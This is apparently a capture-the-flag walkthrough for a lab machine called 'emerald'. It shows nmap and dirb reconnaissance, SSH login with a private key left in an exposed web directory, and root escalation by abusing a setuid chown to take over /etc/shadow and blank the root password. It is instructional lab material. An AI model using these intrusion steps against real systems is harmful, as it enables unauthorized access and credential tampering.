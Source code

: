 # 🖥 Walkthrough | emerald

## 1. Reconnaissance

An `nmap` scan reveals the following exposed services:

```bash
# nmap -A -p- 192.168.60.4
[..]
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 44:93:bd:32:c1:fe:6b:8f:8a:30:5f:c9:ea:21:44:5f (RSA)
|   256 d4:32:2c:4f:31:4d:42:46:e9:82:41:ca:87:2d:ff:00 (ECDSA)
|_  256 d2:f9:90:26:44:fd:34:2e:97:19:6e:d9:f0:1c:dc:64 (ED25519)
8080/tcp open  http    nginx 1.18.0
|_http-title: About Me
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0
[..]
```

The output suggests that there is an SSH server on port 22 and a nginx web server on port 8080. The nginx website appears to only contain static contents:

![website](img/01.png)

One part of reconnaissance is to check for hidden contents. This includes web directories which are not listed publicly, i.e. they need to be discovered. This process is called directory busting.

In this step, we use the tool `dirb` for directory busting. We need to provide an URL as well as a *wordlist* (a text file containing words that will be checked as directory or file names).

```bash
# dirb http://192.168.60.4:8080/ /usr/share/wordlists/dirb/big.txt -r

[..]                                                        
---- Scanning URL: http://192.168.60.4:8080/ ----
==> DIRECTORY: http://192.168.60.4:8080/assets/
==> DIRECTORY: http://192.168.60.4:8080/drive/
[..]
```

The output above shows that there appear to be two directories: `assets` and `drive`. Opening the `drive` directory in a web browser shows some interesting files:

![directory-listing](img/02.png)

The files `id_rsa` and `id_rsa.pub` appear to be an RSA key pair. Possibly for SSH?

## 2. SSH access

The `id_rsa.pub` file contains the string `clemence@emerald`. So it might be worth trying to log in as user `clemence` via SSH. After downloading the private key `id_rsa`, we can issue the following command to establish an SSH session:

```bash
ssh -i id_rsa clemence@192.168.60.4 
```

After confirming the fingerprint, we are successfully logged in as `clemence` and can retrieve the first token:

```bash
clemence@emerald:~$ cat token
This one's for you: EMERALD{d1r3ct0ry_bust1ng_g03s_brrrrr}
```

## 3. Privilege escalation

One way to elevate privileges are so-called `setuid` binaries. When a binary with the `setuid` flag is executed, it runs as its respective owner and not as the user who executed it. Some files like `sudo`, `su` or `passwd` require this flag to work properly.

The following `find` command scans for files with the `setuid` flag. Alternatively you could use a much more powerful tool like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) which also lists `setuid` binaries.

```bash
clemence@emerald:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chown
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

What is unusual is that the `chown` executable has the `setuid` bit set. Since it is owned by root, we can use it to change the ownership of arbitrary files and folders:

```bash
clemence@emerald:~$ ls -al /usr/bin/chown
-rwsr-xr-x 1 root root 72672 Sep 24  2020 /usr/bin/chown
```

There are different ways to get root access. Our approach is the following:

1. Change ownership of `/etc/shadow` so that we can write to it:
   ```
   clemence@emerald:~$ chown clemence /etc/shadow
   ```
2. Edit `/etc/shadow` in an editor of our choice and set the root password to an empty string. To do this, change the first line to:
   ```
   root::0:[...]
   ```
3. Switch to the root user and read the second token:
   ```
   clemence@emerald:~$ su root
   root@emerald:/home/clemence# id
   uid=0(root) gid=0(root) groups=0(root)
   root@emerald:/home/clemence# cat /root/token
   Here's a little secret for you: EMERALD{setu1d_0n_wr0ng_b1n4ries_is_b4d}
   ```

And that's it. We're done!
